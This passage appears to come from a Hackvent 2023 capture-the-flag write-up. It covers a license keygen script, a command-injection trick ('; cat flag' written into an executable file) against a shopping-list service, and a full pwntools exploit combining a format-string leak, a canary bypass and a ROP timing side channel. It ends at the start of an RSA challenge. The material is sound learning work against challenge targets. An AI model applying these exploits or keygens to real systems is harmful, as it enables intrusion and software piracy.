        self.candyMixVertical15 = [21,7,6,17,9,11,14,16,2,10,5,8,22,19,15,23,4,20,18,12,1,13,0,3]
        self.candyMixVertical16 = [11,18,9,12,17,13,10,22,0,1,20,16,7,19,15,3,5,8,14,21,2,23,6,4]
        self.candyMixVertical17 = [15,12,5,22,23,4,8,18,16,11,0,14,7,6,20,17,2,19,21,10,1,9,13,3]
        self.candyMixVertical18 = [16,22,2,14,11,8,7,1,17,4,13,23,12,5,21,10,9,15,0,6,3,19,20,18]
        self.candyMixVertical19 = [20,14,5,10,12,1,8,7,13,2,6,16,22,23,4,11,9,3,15,17,19,18,0,21]
        self.candyMixVertical1A = [5,14,0,23,18,16,11,1,20,2,8,10,15,6,22,19,9,4,21,17,3,7,13,12]
        self.candyMixVertical1B = [13,7,17,18,14,0,22,21,10,12,3,5,8,23,6,20,15,4,9,19,1,16,2,11]
        self.candyMixVertical1C = [6,11,4,2,20,7,22,13,3,18,14,15,5,10,17,16,21,1,0,12,19,8,9,23]
        self.candyMixVertical1D = [7,4,10,2,8,23,19,12,6,5,9,13,0,22,11,16,21,1,14,3,17,20,15,18]
        self.candyMixVertical1E = [14,22,21,16,10,4,17,15,13,12,9,0,20,11,5,7,2,19,3,18,23,8,1,6]
        self.candyMixVertical1F = [18,21,4,13,17,15,1,11,10,6,20,9,7,5,19,0,2,3,12,23,14,8,22,16]
        self.candyMixVerticals = [
        self.candyMixVertical00,
        self.candyMixVertical01,
        self.candyMixVertical02,
        self.candyMixVertical03,
        self.candyMixVertical04,
        self.candyMixVertical05,
        self.candyMixVertical06,
        self.candyMixVertical07,
        self.candyMixVertical08,
        self.candyMixVertical09,
        self.candyMixVertical0A,
        self.candyMixVertical0B,
        self.candyMixVertical0C,
        self.candyMixVertical0D,
        self.candyMixVertical0E,
        self.candyMixVertical0F,
        self.candyMixVertical10,
        self.candyMixVertical11,
        self.candyMixVertical12,
        self.candyMixVertical13,
        self.candyMixVertical14,
        self.candyMixVertical15,
        self.candyMixVertical16,
        self.candyMixVertical17,
        self.candyMixVertical18,
        self.candyMixVertical19,
        self.candyMixVertical1A,
        self.candyMixVertical1B,
        self.candyMixVertical1C,
        self.candyMixVertical1D,
        self.candyMixVertical1E,
        self.candyMixVertical1F]
        self.shuffler = [26,1,5,20,15,2,21,25,27,3,13,31,20,27,27,11,18,27,26,11,0,23,3,26]
        self.candyMixHorizontal00 = [26,27,6,4,31,15,20,2,28,12,0,23,24,18,5,8,10,25,3,21,7,9,22,13,14,1,16,30,17,19,29,11]
        self.candyMixHorizontal01 = [9,6,30,22,20,28,5,31,0,24,21,2,4,27,16,12,29,18,25,17,11,26,1,19,10,8,3,14,15,13,7,23]
        self.candyMixHorizontal02 = [6,8,19,7,16,23,20,12,28,21,1,5,14,3,13,29,9,11,10,31,27,26,4,30,18,17,15,24,22,25,0,2]
        self.candyMixHorizontal03 = [10,23,5,15,21,18,25,11,31,19,16,20,12,22,8,26,17,24,4,30,0,14,6,13,2,9,28,27,1,29,7,3]
        self.candyMixHorizontal04 = [26,14,11,18,24,8,17,6,31,23,28,9,3,1,7,16,15,19,13,2,29,10,22,27,30,0,12,25,5,4,21,20]
        self.candyMixHorizontal05 = [30,16,3,0,6,24,18,14,22,26,29,27,8,10,1,31,25,13,12,7,15,23,5,20,17,19,11,21,2,4,28,9]
        self.candyMixHorizontal06 = [1,31,17,27,16,4,5,10,15,20,14,2,22,21,23,25,0,12,13,28,6,3,11,29,9,18,24,30,26,7,8,19]
        self.candyMixHorizontal07 = [15,31,18,25,1,21,3,29,6,2,27,11,24,28,0,30,4,19,20,23,7,12,22,14,16,9,26,10,5,17,13,8]
        self.candyMixHorizontal08 = [19,2,17,9,31,11,4,30,29,13,0,25,15,23,26,1,21,20,6,22,27,16,7,24,10,18,28,14,8,5,3,12]
        self.candyMixHorizontal09 = [28,24,4,13,18,12,23,7,5,30,19,3,2,17,27,15,16,25,21,14,31,10,8,22,11,1,20,29,0,9,6,26]
        self.candyMixHorizontal0A = [8,13,14,31,21,11,16,25,28,5,2,1,22,24,17,15,10,23,7,9,19,29,20,18,4,30,27,6,0,3,26,12]
        self.candyMixHorizontal0B = [24,27,29,31,21,30,18,12,13,0,9,26,2,6,19,23,16,11,28,5,1,14,7,15,10,4,25,20,3,22,17,8]
        self.candyMixHorizontal0C = [15,9,19,27,6,30,22,17,24,14,31,10,25,16,18,12,29,20,4,7,3,8,1,26,11,0,23,28,5,21,13,2]
        self.candyMixHorizontal0D = [5,13,1,23,31,18,27,12,20,15,14,8,7,29,24,11,30,3,26,17,19,25,21,22,0,10,4,28,2,16,6,9]
        self.candyMixHorizontal0E = [29,27,15,12,30,0,4,9,14,7,22,19,5,31,8,18,6,11,23,24,2,17,3,26,21,16,1,10,20,25,13,28]
        self.candyMixHorizontal0F = [27,1,10,15,3,21,11,9,2,25,12,30,31,29,22,28,6,17,20,7,8,5,19,13,0,16,14,4,18,23,24,26]
        self.candyMixHorizontal10 = [27,26,5,20,17,25,15,10,9,28,21,7,2,8,0,23,6,24,31,3,4,11,22,13,1,12,16,30,19,14,18,29]
        self.candyMixHorizontal11 = [6,14,27,13,29,22,11,19,18,4,21,16,30,17,8,26,0,25,12,7,28,3,10,20,9,24,2,23,5,15,1,31]
        self.candyMixHorizontal12 = [1,29,9,0,20,5,18,4,27,6,24,30,15,2,25,13,7,14,19,8,17,3,11,21,12,31,23,10,22,28,26,16]
        self.candyMixHorizontal13 = [16,30,24,5,28,1,27,29,11,21,14,26,8,4,13,3,2,6,9,25,23,7,10,20,0,17,22,18,12,15,19,31]
        self.candyMixHorizontal14 = [0,28,15,30,31,3,24,16,23,17,1,11,4,2,7,13,19,12,25,27,20,10,18,8,14,6,21,29,26,22,5,9]
        self.candyMixHorizontal15 = [24,0,19,15,22,11,14,28,12,8,25,17,26,23,3,31,18,13,5,7,30,4,27,1,16,2,21,10,9,20,29,6]
        self.candyMixHorizontal16 = [14,25,1,15,28,26,27,10,13,22,19,9,3,18,23,2,21,0,6,16,4,12,8,24,29,17,11,30,20,31,5,7]
        self.candyMixHorizontal17 = [16,12,31,17,13,28,9,4,1,10,27,30,5,26,21,6,15,7,24,11,8,14,29,22,19,20,0,3,2,25,18,23]
        self.candyMixHorizontal18 = [18,19,30,15,29,11,16,26,1,25,8,9,31,3,13,20,6,23,4,28,12,10,21,5,17,14,24,22,2,27,0,7]
        self.candyMixHorizontal19 = [26,15,13,22,21,0,16,17,28,8,29,20,4,14,27,3,19,24,23,30,9,5,25,10,6,31,18,11,2,7,1,12]
        self.candyMixHorizontal1A = [10,4,11,25,1,12,14,21,16,26,31,27,20,5,24,17,19,0,28,15,7,8,29,23,3,2,22,30,9,18,13,6]
        self.candyMixHorizontal1B = [13,12,29,0,1,28,30,20,5,27,8,7,19,18,16,17,10,2,15,22,21,31,4,6,23,9,11,14,24,3,26,25]
        self.candyMixHorizontal1C = [21,23,19,28,1,10,6,17,9,16,13,8,3,29,26,2,7,0,27,22,15,5,14,12,20,25,18,24,4,31,30,11]
        self.candyMixHorizontal1D = [26,15,18,21,0,22,6,11,24,29,14,2,31,23,1,30,25,3,5,12,13,17,19,28,4,7,16,9,8,27,10,20]
        self.candyMixHorizontal1E = [14,25,27,8,24,17,2,11,1,12,19,16,0,30,29,6,22,3,21,15,13,18,20,28,7,31,26,5,9,4,23,10]
        self.candyMixHorizontal1F = [12,10,11,20,19,8,18,6,0,28,29,26,15,23,27,31,1,5,30,13,25,16,7,2,4,17,14,22,24,9,21,3]
        self.candyMixHorizontals = [
        self.candyMixHorizontal00,
        self.candyMixHorizontal01,
        self.candyMixHorizontal02,
        self.candyMixHorizontal03,
        self.candyMixHorizontal04,
        self.candyMixHorizontal05,
        self.candyMixHorizontal06,
        self.candyMixHorizontal07,
        self.candyMixHorizontal08,
        self.candyMixHorizontal09,
        self.candyMixHorizontal0A,
        self.candyMixHorizontal0B,
        self.candyMixHorizontal0C,
        self.candyMixHorizontal0D,
        self.candyMixHorizontal0E,
        self.candyMixHorizontal0F,
        self.candyMixHorizontal10,
        self.candyMixHorizontal11,
        self.candyMixHorizontal12,
        self.candyMixHorizontal13,
        self.candyMixHorizontal14,
        self.candyMixHorizontal15,
        self.candyMixHorizontal16,
        self.candyMixHorizontal17,
        self.candyMixHorizontal18,
        self.candyMixHorizontal19,
        self.candyMixHorizontal1A,
        self.candyMixHorizontal1B,
        self.candyMixHorizontal1C,
        self.candyMixHorizontal1D,
        self.candyMixHorizontal1E,
        self.candyMixHorizontal1F]

        self.Expiration = expiration
        self.Generation = generation
        self.Product = product
        self.Flags = flags
        self.Count = count
        self.Random = random
        self.Type = ptype
        self.Shuffle = shuffle
        self.binary = self.to_bytes()
        self.array = self.binary_to_array()
        self.unshuffledarray = self.unshuffle_array()
        self.key = self.array_to_string()

    def to_bytes(self):
        print(f"[+] to_bytes: {bytes(self)}")
        return bytes(self)

    def binary_to_array(self):
        arr = [0] * 25
        
        def process_chunk(b, i, s):
            num = (int(b[i]) << 32) | \
                  (int(b[i + 1]) << 24) | \
                  (int(b[i + 2]) << 16) | \
                  (int(b[i + 3]) << 8) | \
                  int(b[i + 4])
            
            for j in range(8):
                arr[s + j] = (num >> (35 - (5 * j))) & 0x1F

            return i + 5, s + 8

        i, s = 0, 0
        for _ in range(3):
            i, s = process_chunk(self.binary, i, s)
        print(f"[+] Binary to array: {arr}")
        return arr

    def unshuffle_array(self):
        # now lets find a valid shuffle
        for shuffle in range(32):
            arr = [0]*25

            for i in range(24):
                arr[self.candyMixVerticals[shuffle].index(i)] = self.candyMixHorizontals[self.array[24]].index(self.array[i])

            if shuffle == (sum(arr) + sum(self.shuffler)) % 32:
                print(f"[+] shuffle: {shuffle}")
                print(f"[+] shuffle_array: {arr}")
                return arr
        return None

    def array_to_string(self):
        output_str = ''.join(chr(self.candyMap.index(self.unshuffledarray[i])) for i in range(25))
        out = '-'.join(output_str[i:i+5] for i in range(0, len(output_str), 5))
        print(f"[+] key: {out}\n")
        return out

now = int(datetime.now().timestamp())+10000
now2 = now
ccb = CandyCaneBlock(now,
                     now2, 
                     ProductNames.CandyCaneMachine2000.value, 
                     0, 
                     0, 
                     0, 
                     ProductTypes.Premium.value, 
                     0)

```

```sh
bread@bread-x64:/CTFS/HV23/day20$ python3 solve.py 
[+] to_bytes: b'XD\xc0eXD\xc0e\x00\x00\x00\x00\x00\x00\x02\x00'
[+] Binary to array: [11, 1, 2, 12, 0, 25, 10, 24, 8, 19, 0, 6, 10, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 2, 0]
[+] shuffle: 10
[+] shuffle_array: [31, 10, 16, 10, 12, 10, 10, 7, 10, 10, 10, 10, 25, 29, 2, 10, 15, 9, 16, 7, 10, 17, 10, 10, 0]
[+] Key: ZCJCE-CC9CC-CCTX4-CHBJ9-CKCC2
```

open the page and post the key and we win.

#### FLAG
    HV23{santas-k3ygen-m4ster}

## [HV23.21] Shopping List {hard, binary}

### Description
Santa still needs to buy some gifts, but he tends to forget things easily. That's why he created his own application: A shopping list with state-of-the-art hacker protection.

### Solution

ok another binary, let’s look at it in ghidra.
look at some strings
hahaha "hacker detected, you will be reported to the admin."
let’s see what that’s about, so I followed the usage of the string to this block.
```
  case 0x73:
    if (itemCount == 0) {
      puts("\nPlease add a item to your shopping list first.\n");
    }
    else {
      pcVar4 = getstr("Filename:");
      pcVar5 = strchr(pcVar4,L'/');
      if (pcVar5 != (char *)0x0) {
        puts("hacker detected, you will be reported to the admin.");
        pFVar6 = fopen("flag","w");
        fwrite("I told you not to overstep any boundaries...",1,0x2c,pFVar6);
        fclose(pFVar6);
      }
      pFVar6 = fopen(pcVar4,"w");
      fwrite("# Shopping list\n",1,0x10,pFVar6);
      for (local_30 = 0; local_30 < 100; local_30 = local_30 + 1) {
        if (*(long *)(items + (long)local_30 * 8) != 0) {
          fprintf(pFVar6," - %ldx %s\n",*(long *)(*(long *)(items + (long)local_30 * 8) + 0x10),
                  **(char ***)(items + (long)local_30 * 8));
        }
      }
      fclose(pFVar6);
      printf("Created File %s.\n\n",pcVar4);
      free(pcVar4);
    }
  }
  ```

ChatGPT thinks it a bit average, so I think this is our entry point
```
It's important to note that the code attempts to detect and respond to a forward slash in the filename, which could be an attempt to prevent directory traversal attacks. However, this is a simplistic check and might not be foolproof. It's generally recommended to use more robust methods to validate filenames and prevent security vulnerabilities. Additionally, the code writes a message to a file named "flag" if a forward slash is detected, which might be used as an indicator of suspicious activity.
```

so as long as my filename doesn’t have a `/` I’m good to overwrite files.
I previously did this so I thought why not look at overwriting the `vuln` application itself. but I needed to check if I do what happens.

so, it writes the shopping list to a file but can we then execute from that file, and probably just read the `flag` file that can be overwritten.

```sh
bread@bread-x64:/CTFS/HV23$ nc 172.17.0.2 1337
Shoppinglist creator 📋
The first and last you will ever need, with state-of-the-art hacker protection.
What do you want to do?
[a]dd a item
[l]ist items
[f]etch shopping list from file
[s]ave your shopping list
[e]dit a item
[c]hange the quantity of a item
[r]emove a item
[q]uit
 > a

Name of the item: 
 > bread
How many of this item do you need?
 > 1

Added 1x bread to your shopping list.

What do you want to do?
[a]dd a item
[l]ist items
[f]etch shopping list from file
[s]ave your shopping list
[e]dit a item
[c]hange the quantity of a item
[r]emove a item
[q]uit
 > s
Filename:
 > vuln2
Created File vuln2.
```
if we look at the file in the docker container it did in fact write `vuln2`
```
# cat vuln2
# Shopping list
 - 1x bread
```

so linux is helpful in that when you run a command like `./test` it can be an executable or a bash script, and even more helpful is that Shebang Lines are `Optional`.

so, from here we know 
```
# Shopping list <-- is a comment
 - 1x bread     <-- will break
 ```
but its bash right so we can just add `;` and then start a new command.
let’s test it out with `; echo "bread"`

```
# ./vuln2
./vuln2: 2: -: not found
bread
# cat vuln2
# Shopping list
 - 1x ; echo "bread"
```

yep, worked like a charm! let’s do the file thing against the server

```
bread@bread-x64:/CTFS/HV23$ nc ea81f7ec-29d4-47e4-9d58-41c2a60598aa.rdocker.vuln.land 1337
Shoppinglist creator 📋
The first and last you will ever need, with state-of-the-art hacker protection.

What do you want to do?
[a]dd a item
[l]ist items
[f]etch shopping list from file
[s]ave your shopping list
[e]dit a item
[c]hange the quantity of a item
[r]emove a item
[q]uit
 > a

Name of the item: 
 > ; cat flag
How many of this item do you need?
 > 1

Added 1x ; cat flag to your shopping list.

What do you want to do?
[a]dd a item
[l]ist items
[f]etch shopping list from file
[s]ave your shopping list
[e]dit a item
[c]hange the quantity of a item
[r]emove a item
[q]uit
 > s
Filename:
 > vuln
Created File vuln.

What do you want to do?
[a]dd a item
[l]ist items
[f]etch shopping list from file
[s]ave your shopping list
[e]dit a item
[c]hange the quantity of a item
[r]emove a item
[q]uit
 > q
Bye.

bread@bread-x64:/CTFS/HV23$ nc ea81f7ec-29d4-47e4-9d58-41c2a60598aa.rdocker.vuln.land 1337
█▀▀▀▀▀█ ▀▀█▀▄█▄▀▄▀▀█  █▀▀▀▀▀█
█ ███ █ ▀▀█ ▄▀█▄▀▄▀█▀ █ ███ █
█ ▀▀▀ █ ▀ ▀█▄ ▄ ▀ █▀▀ █ ▀▀▀ █
▀▀▀▀▀▀▀ █ ▀ █ ▀▄▀ ▀ █ ▀▀▀▀▀▀▀
▄▄▄▄▄█▀▄▄▄▄▄▄█ ▄ ▄▀ █ █ █▄▀▄█
▀ ▀█▀▀▀ ▀▄ ▀▄ ▀ ▀▀▀ ▀▀▀█▀█▀  
 ▀▄▄  ▀▀█▄ ▀▄ █▀▀▄▄█  ██▄▄ █ 
 ▄▀  ▄▀█▀▀▀▄▄▀ ▀█ ▀ ▄ ▀▀  █▄▄
█▀█ ▄ ▀█▀█▄█ ▄ ▄ ▀▄ ▄ ▀█▄█▀  
█▀█▄ ▄▀██  ▄ ██▀█▀ ▄█▄▀█ ▄  █
▀  ▀▀▀▀▀▄▄▄▄██▄▄▀▀▄██▀▀▀█ █▀ 
█▀▀▀▀▀█ ▄ ▄ ▀▄▄▄▄█ ██ ▀ █ ▀  
█ ███ █  ███▀▄█▄ █▄█▀█▀█▀ ▄█ 
█ ▀▀▀ █  ▀  █▄▀ ▄▄█▄▄▀██▀█▄▀▄
▀▀▀▀▀▀▀  ▀▀  ▀▀▀▀▀      ▀ ▀  
```
#### FLAG
    HV23{heap4the_win}


## [HV23.22] Secure Gift Wrapping Service {leet, exploitation}

### Description
This year, a new service has been launched to support the elves in wrapping gifts. Due to a number of stolen gifts in recent days, increased security measures have been introduced and the gifts are being stored in a secret place. As Christmas is getting closer, the elves need to load the gifts onto the sleigh, but they can't find them. The only hint to this secret place was probably also packed in one of these gifts. Can you take a look at the service and see if you can find the secret?

Please note that the libc file in the downloadable archive has been changed to match the one in the Docker.

Exploit the Docker and get the flag!

The sha256sum of the downloadable archive public.tar.xz is a0a416c96fb8daa6b2d50c245ab9b914b64431f4dbad381fbbad52b782f43297
### Solution

Oh, damn a Leet level binary, it’s been a really long time since I focused on binaries so this year’s challenges have been fun reviving that skill set.
ok let’s look at the binary in `ghidra`, and have a look at `main` 

here we have a string format vuln and buffer overflow
```c
  printf("Who should the gifts be for? ");
  fgets(gifts_for,20,stdin);
  printf("Processing the wishes of ");
  printf(gifts_for);
  for (j = 0; j < 5; j = j + 1) {
    printf("\nName a wish: ");
    fgets(gifts_for,512,stdin);
    strncpy((char *)(&::gifts + (long)j * 32),gifts_for,256);
    puts("Succesfully wrapped the gift!");
  }
```
then there are sec comp rules, that limit what we can do.
```c
seccomp_init(0): Initializes a new seccomp context. The 0 parameter is the default action for system calls, which is usually allowing.
seccomp_rule_add(sec_cmp, 0x7fff0000, 0x3c, 0):  // exit system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 0xe7, 0):  // exit_group system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 0, 0):     // read system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 2, 0):     // open system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 0x101, 0): // openat system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 9, 0):     // mmap system call.
seccomp_rule_add(sec_cmp, 0x7fff0000, 3, 0):     // close system call.
```

next it read the flag into mem, randomise the flag_file pointer, then does some other stuff. and finishes with the stack cookie check.

```c
  lVar1 = cookie - *(long *)(in_FS_OFFSET + 0x28);
  if (lVar1 != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(0xffffffffffffffff,0xffffffffffffffff,lVar1,0xffffffffffffffff,
                     0xffffffffffffffff,0xffffffffffffffff);
  }
  return (void *)0x0;
}
```

so, at a minimum we need to use the format string to leak the cookie.

```python
from pwn import *

context.log_level='warn'
context.arch = 'amd64'

def main():
    for i in range(1,100):
        try:
            r = process('./pwn')
            formatstr = f"%{i}$p"

            r.sendlineafter(b"?", str(formatstr))
            a =r.recvuntil(b"\n")
            print(f"{i} == {a}")
        except:
            print("nothing")
main()
```

if I run it a couple times, we can see the stack cookie is at `43`.
now I need to figure out what to do with the `buffer overflow`.

while messing around in gdb I noticed the flag file addr is always the same location in memory, and after looking up what `rand()` I realised it doesn’t have a seed value so it uses the default.

so now I know where in memory the flag is `flag_addr = 0x6b8b4567500`.

after looking at the secomp restrictions for a while I gathered, I cannot write to stdout, so I’ll have to leak the flag somehow with a side channel.

this is where I wasted some time as I made a chain to leak it via an exit status code.
because I knew we had the ability to call exit.

```python
# Craft the ROP chain (dump flag 1 char at a time via exit code)
pop_rax_gadget = libc_base + 0x0000000000045eb0     # pop rax ; ret
pop_rcx_gadget = libc_base + 0x000000000003d1ee     # pop rcx ; ret
mov_mem_eax_gadget = libc_base + 0x000000000008d960 # movzx eax, byte ptr [rax] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
call_exit = libc_base + 0x0000000000125815          # mov edi, eax ; mov eax, 0x3c ; syscall
cmp_check = libc_base + 0x00000000001a5c92 # cmp eax, ecx ; jne 0x1a5ea0 ; xor eax, eax ; ret

payload += p64(call_exit)
rop_chain = [
    pop_rax_gadget,      # Pop flag addr into rdi
    flag_addr,           # flag addr
    mov_mem_eax_gadget,  # copies a byte from mem (rdx) to al reg, adds al rax.
    pop_rcx_gadget-8,          
    pop_rcx_gadget-8,
    pop_rcx_gadget,
    pop_rcx_gadget,      # cmp call
    ord(guess),          
    cmp_check,
    main_leak+125
]
payload += b''.join(p64(addr) for addr in rop_chain)
```

but this is jumping ahead a little. and doesn’t work for the remote attack.
so, let’s look at what does. after completing the challenge locally using the exit code method, I had to rethink my ROP chain.
but the good news was I had the basics gadgets down.

my idea to replace the `exitcode` method was to do a comparison and if they match do an endless loop. this way I could just do a timing attack.

so, I needed to find gadgets. I’ll explain my gadgets for getting a byte of the flag.
first, we needed something to get a single byte, so we look for a gadget that has `mov ???, byte ptr [???]` and is pointing to a register and moves the value to a register.

- `mov_mem_eax = libc_base + 0x000000000008d960 # movzx eax, byte ptr [rax] ; add rsp, 8 ; pop rbx ; pop rbp ; ret`

this works so now all I need so to `pop rax` to put the flag addr in rax.

- `pop_rax     = libc_base + 0x0000000000045eb0 # pop rax ; ret`

the rest of the `movzx` gadget doesn’t matter atm. now that we have a byte value in `eax`, we can look for a `cmp` gadget.

this cmp gadget is kind of nice because it does a `jne` jump not equal, meaning if it equal to what I want I can continue my ROP.

- `cmp_ecx_edx = libc_base + 0x00000000000b1280 # cmp ecx, edx ; jne 0xb1270 ; ret`

given I had the flag char in `eax` I needed to find a suitable `mov`, so I looked for move gadget from eax to either rcx or rdx. I found this

- `mov_edx_eax = libc_base + 0x00000000000b5653 # mov edx, eax ; shr rax, 0x20 ; or eax, edx ; ret`

so, it means I need a `pop rcx` to do the compare.

- `pop_rcx     = libc_base + 0x000000000003d1ee # pop rcx ; ret`

so far so good now I just need to find a jump that could result in an endless loop that doesn’t also call a syscall I cannot do. given this I needed to look at where the jump might end up so I decided to look at jumps in gdb in the `pwn` and I found one.

```py
gdb-peda$ disas register_tm_clones 
Dump of assembler code for function register_tm_clones:
   0x0000560e24b202a0 <+0>:	lea    rdi,[rip+0x2d69]        # 0x560e24b23010
   0x0000560e24b202a7 <+7>:	lea    rsi,[rip+0x2d62]        # 0x560e24b23010
   0x0000560e24b202ae <+14>:	sub    rsi,rdi
   0x0000560e24b202b1 <+17>:	mov    rax,rsi
   0x0000560e24b202b4 <+20>:	shr    rsi,0x3f
   0x0000560e24b202b8 <+24>:	sar    rax,0x3
   0x0000560e24b202bc <+28>:	add    rsi,rax
   0x0000560e24b202bf <+31>:	sar    rsi,1
   0x0000560e24b202c2 <+34>:	je     0x560e24b202d8 <register_tm_clones+56>
   0x0000560e24b202c4 <+36>:	mov    rax,QWORD PTR [rip+0x2d25]        # 0x560e24b22ff0
   0x0000560e24b202cb <+43>:	test   rax,rax
   0x0000560e24b202ce <+46>:	je     0x560e24b202d8 <register_tm_clones+56>
   0x0000560e24b202d0 <+48>:	jmp    rax
   0x0000560e24b202d2 <+50>:	nop    WORD PTR [rax+rax*1+0x0]
   0x0000560e24b202d8 <+56>:	ret
   0x0000560e24b202d9 <+57>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
gdb-peda$ 
```

i kind of stumbled on it but it will work.
if we ret to `0x0000560e24b202cb` it will check if rax == 0, if it is it will jmp to ret, but if it’s not it will jump to `rax`.
so, if `rax` is an address it will never equal 0 and it will endlessly jmp to itself.

so now to put it all together.
```python
rop_chain = [
    pop_rax, flag_addr,                # Pop flag addr into rax
    mov_mem_eax, exitint-8, exitint-8, # copies a byte from mem (flag), pop, pop
    mov_edx_eax, mov_edx_eax,          # move byte to edx
    pop_rcx, ord(guess),               # put guess in ecx
    cmp_ecx_edx,                       # compare guess to flag (if match do loop)
    pop_rax, loop,                     # put loop addr in RAX
    loop,                              # call endless loop
    exitint                            # incase ret is called
]
```

We now can do a ROPchain that leaks a char of the flag via time differences.
how this works is a successful guess will have a longer timeout than an unsuccessful check.

to find out what the format string vuln was leaking just means putting a break in `gdb` and looking at the address that is leaked, eventually I found `b"%43$p|%45$p|%47$p"`
leaks everything, I need.

final solution code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 152.96.15.7 --port 1337 --libc ./libc.so.6 ./pwn
from pwn import *
import time
import string

context.log_level = 'warning'

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './pwn')
host = args.HOST or '152.96.15.2'
port = int(args.PORT or 1337)

if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')
else:
    libc = ELF('./libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    r = remote(host, port)
    if args.GDB:
        gdb.attach(r, gdbscript=gdbscript)
    return r

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
break *main+970
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

flag = ""
all_printable = string.ascii_letters + string.digits + string.punctuation

for i in range(100):
    for guess in all_printable:
        r = start()
        
        # Get leaks (cookie,libc,main)
        #b"%43$llx|%45$llx|%55$llx|%68$llx|%77$llx"
        formatstrvuln = b"%43$p|%45$p|%47$p"
        r.sendlineafter(b"?", formatstrvuln)
        r.recvuntil(b"of ")
        cookie, libc_leak, main_leak = [int(i, 16) for i in r.recvuntil(b"\n").split(b"|")]
        #print(f' [+] Cookie: {hex(cookie)}')
        #print(f' [+] __libc_start_main: {hex(libc_leak)}')
        #print(f' [+] main: {hex(main_leak)}')

        # Skip 4 unneeded wishes
        for j in range(4):
            r.sendlineafter(b'wish: ', b"")

        # Wish 5 we wish for a buffer overflow
        payload = b"A" * 264
        payload += p64(cookie)

        # Find base and flag
        libc_base = libc_leak - 0x29d90 # libc base offset
        main_base = main_leak - 0x1329  # main base offset
        flag_addr = 0x6b8b4567500 + i   # Address where the flag is in memory

        #print(f' [+] LIBC Base: {hex(libc_base)}')
        #print(f' [+] Main Base: {hex(main_base)}')
        #print(f' [+] Flag: {hex(flag_addr)}')

        # Craft the ROP chain (dump flag 1 char at a time via exit code)
        pop_rax     = libc_base + 0x0000000000045eb0 # pop rax ; ret
        pop_rcx     = libc_base + 0x000000000003d1ee # pop rcx ; ret
        mov_mem_eax = libc_base + 0x000000000008d960 # movzx eax, byte ptr [rax] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
        mov_edx_eax = libc_base + 0x00000000000b5653 # mov edx, eax ; shr rax, 0x20 ; or eax, edx ; ret
        cmp_ecx_edx = libc_base + 0x00000000000b1280 # cmp ecx, edx ; jne 0xb1270 ; ret
        exitint     = libc_base + 0x0000000000125815 # mov edi, eax ; mov eax, 0x3c ; syscall
        loop        = main_base + 0x00000000000012cb # test RAX,RAX je to ret, else jmp RAX 

        payload += p64(exitint)
        rop_chain = [
            pop_rax, flag_addr,                # Pop flag addr into rdi
            mov_mem_eax, exitint-8, exitint-8, # copies a byte from mem (flag), pop, pop
            mov_edx_eax, mov_edx_eax,          # move byte to edx
            pop_rcx, ord(guess),               # put guess in ecx
            cmp_ecx_edx,                       # compare guess to flag (if they match do endless loop)
            pop_rax, loop,                     # put endless loop addr in RAX
            loop,                              # call endless loop
            exitint                            # move flag bit to exit status, call exit
        ]
        payload += b''.join(p64(addr) for addr in rop_chain)

        # Send the payload to the target
        r.sendline(payload)

        # If it hangs we found the matching char
        st = time.time()
        r.recvall(timeout=3)
        et = time.time()
        if (et - st) >= 2:
            flag += guess
            print(f"[+] Found char: {guess}")
            break
        r.close()
    print(f"[+] Current flag is: {flag}")
        
print(f"[!] Final Flag: {flag}")
```

#### FLAG
    HV23{t1m3_b4s3d_s3cr3t_exf1ltr4t10n}

## [HV23.23] Roll your own RSA {leet, crypto}

### Description
Santa wrote his own script to encrypt his secrets with RSA. He got inspired from the windows login where you can specify a hint for your password, so he added a hint for his own software. This won't break the encryption, will it?

Download the Resource and get the flag!
### Solution

mmm I’ve done a lot of RSA challenges so I’m wondering what this could even be.
and I was happy to see something new.

```py
from Crypto.Util.number import *
from sage.all import *
from secret import FLAG, x, y
import random

# D = {x∈ℕ | 0 ≤ x ≤ 1000}
# D = {y∈ℕ | 0 ≤ y ≤ 1000}

def enc(flag, polynomial_function):
    p = getStrongPrime(512)
    q = getStrongPrime(512)
    N = p * q
    e = 65537
    hint = p**3 - q**8 + polynomial_function(x=x)  
    encrypted = pow(bytes_to_long(flag), e, N)
    print(f"{N=}")
    print(f"{e=}")
    print(f"{hint=}")
    print(f"{encrypted=}")


def generate_polynomial_function(seed):
    x = SR.var("x")
    random.seed(seed)
    grade = random.choice([2,3])
    a = random.randint(9999, 999999)
    b = random.randint(8888, 888888)
    c = random.randint(7777, 777777)

    if grade == 2:
        y_x = a*x**2+b*x+c
    if grade == 3:
        d = random.randint(6666, 666666)
        y_x = a*x**3+b*x**2+c*x+d

    print(a+b+c)
    return y_x


y_x = generate_polynomial_function(y)
enc(FLAG.encode(), y_x)
```

the basics are:
- we don’t know what `FLAG, x, y` are
- `0 ≤ x ≤ 1000` x is small
- `0 ≤ y ≤ 1000` y is small
- there is a polynomial_function
- we need to find a seed value
- and we have output from a single run of the program.

